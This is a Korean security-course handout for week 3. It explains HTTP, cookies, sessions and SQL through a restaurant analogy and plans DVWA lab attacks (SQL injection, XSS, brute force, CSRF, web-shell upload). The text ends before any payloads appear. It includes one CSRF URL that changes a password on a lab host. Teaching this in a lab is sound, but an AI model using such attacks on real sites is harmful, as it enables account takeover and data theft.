









# Week 03 — 웹의 작동 원리 + 직접 해보는 웹 해킹 (DVWA)

> **본 주차의 한 줄 요약**
>
> 지난 주까지 학생은 터미널과 파일을 다루는 손을 만들었다. 이번 주는 그 손으로 **진짜 웹을
> 뚫는다.** 다만 무턱대고 뚫는 게 아니라, 먼저 "웹사이트는 도대체 어떻게 움직이는가"를
> 들여다본다 — 브라우저가 묻고(요청) 서버가 답하고(응답), 그 사이에 쿠키·세션·데이터베이스가
> 어떻게 끼는지. 원리를 손에 쥔 **바로 그 순간**, 연습용 표적 **DVWA** 에서 **SQL 인젝션 ·
> XSS · 인증우회/Brute Force · CSRF · 파일 업로드(웹셸)** 다섯 가지 진짜 해킹 기법을 **내 손으로**
> 성공시킨다. 이 구간이 많은 사람이 어려워서 포기하는 자리지만, 걱정하지 마라 — 모든 실습은
> **한 글자도 안 틀리면 똑같은 결과**가 나오게 짜여 있다(DVWA 보안등급 Low 고정). 천천히
> 따라오기만 하면 누구나 "어? 진짜 뚫렸어!" 를 다섯 번 경험한다.
>
> **이번 주의 한 줄 결론**: 오늘 배울 다섯 공격은 전부 **같은 한 가지 실수**에서 나온다 —
> "서버가 사용자가 넣은 글자를 너무 순진하게 믿는다." 이 한 문장만 손에 쥐면, 겉보기엔 전혀
> 달라 보이는 다섯 공격이 사실 한 형제임을 알게 된다.

---

## 학습 목표

이번 주가 끝나면 학생은 다음을 **본인 손으로** 할 수 있다.

1. 브라우저 주소창에 주소를 치면 화면이 뜨기까지의 과정(요청 → 서버 → DB → 응답)을 그림으로
   그리고, HTTP 요청·응답의 구조(메서드·상태코드·헤더·바디)를 비유 없이 설명한다.
2. 개발자도구(F12)의 세 탭(Elements / Network / Application)을 열어 **쿠키와 요청**을 직접
   들여다보고, "내 로그인 상태가 어디에 저장되어 있나"를 손가락으로 짚는다.
3. OWASP Top 10 이 무엇인지, 그중 오늘 다루는 다섯 가지가 어디에 속하는지 표로 설명한다.
4. DVWA에서 **SQL 인젝션**으로 회원 전체의 아이디와 비밀번호 해시 목록을 한 줄 입력으로 뽑아낸다.
5. DVWA에서 **XSS**로 경고창을 띄우고 내 쿠키를 출력하며, **인증우회/Brute Force**로 잠금 없는
   로그인을 확인하고, **CSRF**로 비밀번호를 몰래 바꾸게 만든다.
6. DVWA에서 **PHP 웹셸을 업로드**해 서버에서 직접 명령을 실행한다(오늘의 하이라이트, 서버 장악).

> ⚠️ **인가된 실습만.** 오늘의 모든 공격은 우리 손으로 띄운 **연습용 표적 DVWA** 안에서만
> 한다. 남의 웹사이트에 SQL 인젝션을 넣거나, 남의 쿠키를 훔치거나, 남의 비밀번호를 무차별
> 대입하는 행위는 **명백한 범죄**이며 Week 01 에서 서명한 보안 서약을 정면으로 위반한다.
> "내가 만든 표적, 또는 허락받은 표적에서만." 이것이 화이트해커와 범죄자를 가르는 단 하나의 선이다.

---

## 시간 배분 (총 7시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00–0:50 | 이론 — 웹은 어떻게 움직이나(요청/응답, HTTP 구조, URL, 브라우저↔서버↔DB) | 강의 |
| 0:50–1:30 | 이론 — 쿠키 vs 세션, 데이터베이스·SQL, 개발자도구 세 탭 | 강의 |
| 1:30–1:40 | 휴식 | — |
| 1:40–2:10 | 이론 — OWASP Top 10 한 장 요약 + 오늘의 다섯 공격이 어디 속하나 | 강의 |
| 2:10–2:40 | 실습 ① 개발자도구로 쿠키/요청 관찰 | 실습 |
| 2:40–3:40 | 실습 ② SQL Injection ③ XSS | 실습 |
| 3:40–3:50 | 휴식 | — |
| 3:50–5:00 | 실습 ④ 인증우회/Brute Force ⑤ CSRF | 실습 |
| 5:00–6:30 | 실습 ⑥ 파일 업로드(웹셸) — 오늘의 하이라이트 | 실습 |
| 6:30–7:00 | 정리 + 자주 하는 실수 점검 + 다음 주차(AI 에이전트) 예고 | 정리 |

---

## 0. 용어 해설 (오늘 처음 나오는 말)

오늘은 새 용어가 쏟아진다. 아래 표로 한 번 훑어 두고, 본문에서 다시 만날 때 막히면 여기로
돌아오면 된다. 모든 용어는 본문에서 처음 등장할 때 다시 비유로 풀어 설명한다.

| 용어 | 영문 | 뜻 | 비유 |
|------|------|----|------|
| **요청 / 응답** | Request / Response | 브라우저가 묻고(요청) 서버가 답함(응답) | 손님 주문서 / 나온 음식 |
| **HTTP** | HyperText Transfer Protocol | 웹에서 요청·응답을 주고받는 약속된 양식 | 통일된 주문서 서식 |
| **메서드** | Method (GET/POST) | 요청의 종류 — 가져오기(GET) / 보내기(POST) | "주세요" vs "이거 접수해주세요" |
| **상태코드** | Status Code | 서버가 응답에 붙이는 처리 결과 번호(200·404 등) | 주방의 "나왔습니다 / 그런 메뉴 없어요" |
| **헤더 / 바디** | Header / Body | 요청·응답의 메모지(헤더)와 내용물(바디) | 택배 송장(헤더) / 상자 안 물건(바디) |
| **URL** | Uniform Resource Locator | 웹 자원의 주소(프로토콜·도메인·경로·쿼리) | 가게 주소 + 메뉴 이름 |
| **서버** | Server | 웹사이트를 돌리는 컴퓨터 | 식당 주방 |
| **쿠키** | Cookie | 브라우저에 저장되는 작은 메모(로그인 표식 등) | 손목에 찍는 입장 도장 |
| **세션** | Session | 서버가 기억하는 '로그인 상태' | 주방이 든 단골 명단 |
| **HttpOnly** | — | 자바스크립트가 쿠키를 못 읽게 막는 보호 표시 | 도장을 옷 안에 숨겨 남이 못 보게 |
| **데이터베이스** | Database (DB) | 회원·글 등 데이터를 저장하는 창고 | 주방 안쪽 명부 캐비닛 |
| **SQL** | Structured Query Language | DB에 묻는 언어("admin 회원 찾아줘") | 사서에게 책 요청서 |
| **개발자도구** | DevTools (F12) | 브라우저 내부를 들여다보는 창 | 자동차 보닛 열기 |
| **OWASP Top 10** | — | 가장 흔하고 위험한 웹 취약점 10가지 표준 목록 | 빈집털이 단골 수법 톱10 |
| **페이로드** | Payload | 공격에 끼워 넣는 '실제 내용물' 문자열 | 자물쇠에 넣는 특수 열쇠 |
| **SQL 인젝션** | SQL Injection | 입력에 SQL을 끼워 DB를 조작·유출 | 주문서에 "창고 명부도 가져와" 끼워넣기 |
| **XSS** | Cross-Site Scripting | 입력에 스크립트를 끼워 남의 브라우저에서 실행 | 방명록에 몰래 심은 자동 실행 쪽지 |
| **CSRF** | Cross-Site Request Forgery | 피해자 몰래 요청을 대신 보내게 만듦 | 남의 도장으로 위임장 결재 |
| **Brute Force** | 무차별 대입 | 흔한 비밀번호를 계속 시도해 뚫기 | 자물쇠 번호 0000부터 다 돌려보기 |
| **웹셸** | Web Shell | 서버에 올려 명령을 실행하는 악성 파일 | 몰래 설치한 원격 조종기 |
| **RCE** | Remote Code Execution | 원격에서 서버 명령을 실행하는 것(서버 장악) | 남의 주방을 통째로 내가 조종 |
| **DVWA** | Damn Vulnerable Web App | 일부러 취약하게 만든 연습용 표적 웹앱 | 마음껏 부숴도 되는 연습용 자물쇠 세트 |

---

## 0.5 핵심 비유 — "식당"으로 웹 한 번에 이해하기

여기가 오늘 가장 중요한 한 절이다. 이 비유 하나만 머리에 박으면, 뒤따르는 다섯 공격이 전부
같은 그림 위에 얹힌다. 천천히 읽자.

### 0.5.1 웹사이트 = 식당

웹사이트를 **식당**이라고 생각하자. 등장인물은 넷이다.

| 식당 | 웹 |
|------|----|
| 손님(나) | **브라우저** — 내가 보는 크롬·엣지 화면 |
| 주문서 | **요청(Request)** — "이 페이지 주세요" 라고 브라우저가 서버에 보내는 종이 |
| 주방 | **서버(Server)** — 웹사이트를 실제로 돌리는 컴퓨터 |
| 나온 음식 | **응답(Response)** — 서버가 돌려주는 HTML 화면 |
| 주방 안쪽 창고 | **데이터베이스(DB)** — 회원·글·비밀번호가 든 명부 캐비닛 |

손님은 주방에 **직접 들어갈 수 없다.** 오직 주문서(요청)를 건네고, 음식(응답)을 받을 뿐이다.
손님과 주방 사이의 모든 대화는 **주문서 한 장**으로만 오간다. 이게 웹의 전부다.



### 0.5.2 쿠키 = 입장 도장, 세션 = 단골 명단

손님이 로그인을 하면 어떻게 될까? 주방(서버)이 "아, 이 사람은 회원이군" 하고 **단골 명단**에
적어 둔다. 이게 **세션(Session)** 이다. 동시에 손님 손목에는 **입장 도장**을 찍어 준다. 이게
**쿠키(Cookie)** 다. 도장에는 단골 명단의 몇 번째 줄인지를 가리키는 번호(`PHPSESSID`)가 적혀 있다.

이제 손님이 다음 주문서를 낼 때마다 손목 도장을 함께 보여 준다. 주방은 도장 번호로 단골 명단을
뒤져 "아, 아까 그 회원이네" 하고 알아본다. **로그인을 한 번만 해도 계속 회원으로 인식되는 비밀**이
바로 이 도장(쿠키)과 명단(세션)의 짝맞춤이다.

여기서 무서운 점 하나. 만약 누가 **내 손목 도장을 베껴 가면**, 그 사람은 내 비밀번호를 몰라도
나인 척 들어올 수 있다. 이것이 뒤에서 배울 **XSS로 쿠키를 훔치는** 공격의 핵심이다. 그래서 중요한
도장에는 `HttpOnly` 라는 보호 표시를 붙여, 자바스크립트가 도장을 읽지 못하게 한다(도장을 옷 안에
숨기는 셈). DVWA는 이 보호가 일부러 약하게 되어 있어 공격이 통한다.



### 0.5.3 SQL 인젝션 = 주문서에 몰래 끼워 넣는 글귀

이제 오늘의 첫 공격을 같은 비유로 보자. 손님이 주문서에 보통은 "비빔밥 하나"라고 쓴다. 그런데
장난기 많은 손님이 이렇게 쓴다 — **"비빔밥 하나, 그리고 창고에 있는 회원 명부도 같이 가져와."**

정상적인 주방이라면 "회원 명부는 손님께 드릴 수 없습니다" 하고 거절해야 한다. 그런데 **순진한
주방**은 주문서에 적힌 글자를 **명령으로 그대로 실행**해 버린다. 그 결과 손님 식탁에 비빔밥과 함께
회원 명부(모든 사람의 아이디·비밀번호)가 딸려 나온다.

이게 **SQL 인젝션(SQL Injection)** 이다. 입력칸(주문서)에 데이터베이스 명령(SQL)을 몰래 끼워
넣어, 서버가 그걸 명령으로 실행하게 만드는 것이다. 핵심 원인은 단 하나 — **서버가 손님이 쓴
글자를 너무 순진하게 믿었다.**

### 0.5.4 한 문장으로 오늘을 다 잡는다

위 그림을 다 그렸으면, 이제 마법의 한 문장을 외우자.

> **"오늘의 다섯 공격은 전부, 서버가 사용자가 넣은 글자를 너무 순진하게 믿어서 생긴다."**

- **SQL 인젝션** — 입력칸에 끼운 SQL을 믿어서 DB가 샌다.
- **XSS** — 입력칸에 끼운 `<script>`를 믿어서 남의 브라우저에서 코드가 실행된다.
- **CSRF** — 어디서 온 요청인지 묻지 않고 믿어서 위조된 요청이 통한다.
- **Brute Force** — 몇 번을 틀려도 의심 없이 받아줘서 무한 시도가 통한다.
- **파일 업로드** — 올라온 파일이 사진인지 묻지 않고 믿어서 PHP 코드가 실행된다.

겉모습은 다섯 가지로 달라 보여도 뿌리는 하나다. 이 뿌리를 잡으면 오늘 하루가 쉬워진다.

---

## 1. 웹은 이렇게 움직인다 — 요청과 응답

### 1.1 한 줄 정의

웹은 **브라우저가 서버에 요청을 보내고, 서버가 응답(HTML)을 돌려주는** 왕복이다. 손님이 주문서를
내면 음식이 나오는, 그 단순한 왕복의 무한 반복이 우리가 보는 모든 웹페이지다.

### 1.2 왜 중요한가

해킹은 결국 이 **요청을 살짝 바꿔치기** 하는 일이다. 어떤 요청이 오가고 있는지 볼 줄 알아야,
어디를 비틀면 서버가 속는지 알 수 있다. 그래서 공격에 앞서 항상 **요청·응답을 관찰**한다(오늘
실습 ①이 바로 이 관찰이다).

### 1.3 HTTP 요청의 구조 — 주문서에는 무엇이 적혀 있나

브라우저가 서버에 보내는 주문서(HTTP 요청)는 크게 세 부분이다. 주소창에
`http://victim:8088/login` 을 치면 대략 이런 종이가 날아간다.

```
GET /login HTTP/1.1          ← 메서드 + 경로 (무엇을, 어디서)
Host: victim:8088            ← 헤더 (어느 가게로, 어떤 도장으로…)
Cookie: PHPSESSID=abc123     ← 헤더에 든 입장 도장
(빈 줄)
(바디: GET은 보통 비어 있음)   ← 바디 (보낼 내용물)
```

여기서 두 가지 핵심 용어를 잡자.

> **용어 — 메서드(Method).** 요청의 **종류**다. 가장 많이 쓰는 둘은 **GET**(주세요 — 페이지를
> 가져옴)과 **POST**(이거 접수해주세요 — 로그인·글쓰기처럼 서버에 데이터를 보냄)다. 식당으로
> 치면 GET은 "메뉴판 주세요", POST는 "이 주문서 접수해주세요"다. 오늘 SQL 인젝션·로그인은 보통
> POST로, CSRF·웹셸 호출은 GET으로 일어난다.

> **용어 — 헤더(Header)와 바디(Body).** 요청·응답은 **메모지(헤더)** 와 **내용물(바디)** 로
> 나뉜다. 택배에 비유하면 헤더는 송장(누가·어디로·어떤 도장)이고, 바디는 상자 안 물건(실제
> 데이터)이다. 쿠키(입장 도장)는 **헤더**에 실려 매 요청마다 자동으로 따라간다 — 이 점이 뒤에서
> CSRF가 통하는 이유가 된다.

### 1.4 HTTP 응답의 구조 — 주방의 답에는 번호가 붙는다

서버의 응답(음식)에는 항상 **상태코드(Status Code)** 라는 번호가 붙는다. 주방이 "잘 나왔습니다 /
그 메뉴 없어요 / 주방이 고장났어요"를 번호로 알려주는 것이다. 오늘 꼭 알아야 할 다섯 개만 보자.

| 코드 | 뜻 | 식당 비유 | 오늘 어디서 보나 |
|------|----|----------|-----------------|
| **200** | OK, 정상 처리 | "주문하신 음식 나왔습니다" | 페이지가 잘 뜨면 |
| **302** | 다른 곳으로 보냄(리다이렉트) | "그건 옆 창구로 가세요" | 로그인 성공 후 페이지 이동 |
| **403** | 금지됨(권한 없음) | "회원만 들어오실 수 있어요" | WAF가 공격을 막을 때 |
| **404** | 없음(페이지 없음) | "그런 메뉴 없는데요" | 주소를 잘못 쳤을 때 |
| **500** | 서버 내부 오류 | "주방이 고장 났어요" | 서버가 처리 중 터졌을 때 |

상태코드는 공격 성공 여부를 읽는 **신호등**이다. 예컨대 로그인 시도에 200이 오면 성공, 401/403이
오면 실패라는 식으로 판정한다. 개발자도구 Network 탭에서 이 번호가 색으로 보인다.

### 1.5 URL의 구조 — 주소 한 줄에 다 들어 있다

주소창의 URL은 그냥 글자 덩어리가 아니라 **부품 조립품**이다. 오늘 CSRF 실습에서 이 구조를 직접
손으로 조작하니 미리 보자.

```
http://victim:8088/vulnerabilities/csrf/?password_new=hacked123&Change=Change
└─┬─┘ └──┬───┘└┬┘ └──────┬─────────┘ └────────────┬──────────────────────┘
프로토콜  도메인 포트     경로(가게+메뉴)            쿼리 스트링(? 뒤의 옵션들)
```

- **프로토콜** `http://` — 통신 약속(식당까지 가는 길의 종류).
- **도메인·포트** `victim:8088` — 어느 가게, 어느 창구.
- **경로** `/vulnerabilities/csrf/` — 가게 안 어느 메뉴(페이지).
- **쿼리 스트링** `?password_new=hacked123&Change=Change` — **물음표 뒤에 붙는 옵션들.**
  `이름=값` 쌍을 `&` 로 이어 붙인다. CSRF 공격은 바로 이 쿼리 스트링에 `password_new=hacked123` 을
  심어, 주소만으로 비밀번호를 바꾸게 만드는 것이다.

URL의 `?` 뒤를 내 마음대로 쓸 수 있다는 사실 — 이것이 오늘 여러 공격의 출발점이다.

### 1.6 전체 흐름 — 한 번 클릭에 무슨 일이 벌어지나

주소창에 `http://victim:8088` 을 치고 엔터를 누른 순간, 1초도 안 되는 사이에 이런 일이 벌어진다.



오늘의 공격은 이 6단계 중 **어디를 비트느냐**로 갈린다 — SQL 인젝션은 3번(서버→DB)을, XSS는
6번(브라우저 화면)을, CSRF는 1번(요청 위조)을, 웹셸은 서버 자체를 노린다.

### 1.7 주의

요청은 **사용자가 마음대로 바꿀 수 있다.** 브라우저 주소창으로도, `curl` 같은 도구로도, 개발자
도구로도 요청을 손으로 고쳐 보낼 수 있다. 그래서 서버는 **사용자 입력을 절대 그냥 믿으면 안 된다.**
이 원칙을 안 지킨 사이트가 오늘의 표적 DVWA다.

---

## 2. 개발자도구(F12) — 자동차 보닛 열기

### 2.1 한 줄 정의

개발자도구(DevTools)는 브라우저에서 **F12** 를 눌러 여는, 웹페이지 내부를 들여다보는 창이다.
겉으로 보이는 화면(번쩍이는 자동차) 말고, 그 아래에서 실제로 돌아가는 엔진과 배선을 보는
**보닛 열기**라고 생각하면 된다.

### 2.2 세 개의 탭만 알면 된다

개발자도구에는 탭이 많지만, 오늘은 세 개만 알면 충분하다.

| 탭 | 무엇을 보나 | 식당 비유 | 오늘 쓰임 |
|----|-----------|----------|----------|
| **Elements** (요소) | 지금 화면을 이루는 HTML 코드 | 차려진 음식의 재료 구성표 | XSS로 내 코드가 화면에 박힌 걸 확인 |
| **Network** (네트워크) | 오간 요청·응답 목록과 상태코드 | 오간 주문서·음식 영수증 | 어떤 요청이 가는지, 200/302 신호 확인 |
| **Application** (저장소) | 쿠키·로컬 저장소 등 브라우저가 든 데이터 | 내 손목 도장 확인 | `PHPSESSID`, `security=low` 쿠키 찾기 |

> **용어 — Elements 탭.** 지금 보고 있는 페이지의 **HTML 뼈대**를 실시간으로 보여준다. 화면의
> 어떤 글자가 코드의 어느 줄에서 왔는지 짚을 수 있다. XSS 실습에서 내가 넣은 `<script>`가 화면
> HTML에 그대로 박혀 버린 것을 여기서 눈으로 확인한다 — "아, 서버가 내 글자를 코드로 받아들였구나."

> **용어 — Network 탭.** 페이지가 보내고 받은 **모든 요청·응답의 목록**이다. 각 줄에 메서드(GET/
> POST), 경로, 상태코드(200·302·404…)가 색으로 표시된다. 새로고침하면 그 페이지가 실제로 무슨
> 요청을 날리는지 전부 보인다. 공격자는 여기서 "어느 요청을 비틀면 되는지"를 고른다.

> **용어 — Application(또는 저장소) 탭.** 브라우저가 들고 있는 **쿠키**를 직접 볼 수 있는 곳이다.
> 여기서 `PHPSESSID`(내 입장 도장)와 `security=low`(DVWA 난이도) 값을 찾는 것이 실습 ①의 목표다.
> 이 도장 값이 곧 내 세션이며, 이걸 남이 알면 나인 척 들어올 수 있다는 사실을 눈으로 확인한다.

### 2.3 주의

개발자도구로 보이는 값들(쿠키·요청)은 **내 브라우저 안의 것**이다. 이걸 관찰하는 건 합법이고
안전하다. 하지만 같은 도구로 **남의 쿠키 값을 빼내 쓰는** 순간 그것은 세션 탈취 범죄가 된다. 오늘은
오직 **내 표적, 내 쿠키**만 다룬다.

---

## 3. 데이터베이스와 SQL — 창고와 사서

### 3.1 한 줄 정의

**데이터베이스(DB)** 는 회원·글·비밀번호처럼 웹사이트가 기억해야 할 데이터를 **표(table)** 형태로
쌓아 두는 창고다. **SQL** 은 그 창고에 대고 "이런 데이터 찾아줘"라고 묻는 언어다. 창고가 캐비닛이면,
SQL은 사서에게 건네는 요청서다.

### 3.2 표로 생긴 창고

DB 안의 회원 정보는 대략 이렇게 생긴 표(`users` 테이블)에 들어 있다.

| user | password (해시) |
|------|-----------------|
| admin | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337 | 8d3533d75ae2c3966d7e0d4fce785614 |

비밀번호가 원래 글자가 아니라 외계어 같은 32자리 문자열로 적혀 있는데, 이를 **해시(hash)** 라고
한다 — 비밀번호를 한 방향으로 뒤섞어 둔 값이다. 오늘 SQL 인젝션으로 뽑아낼 것이 바로 이 표 전체다.

### 3.3 안전한 SQL vs 순진한 SQL

서버가 로그인을 처리할 때, 속으로는 대략 이런 SQL 문장을 만들어 DB에 묻는다.

```sql
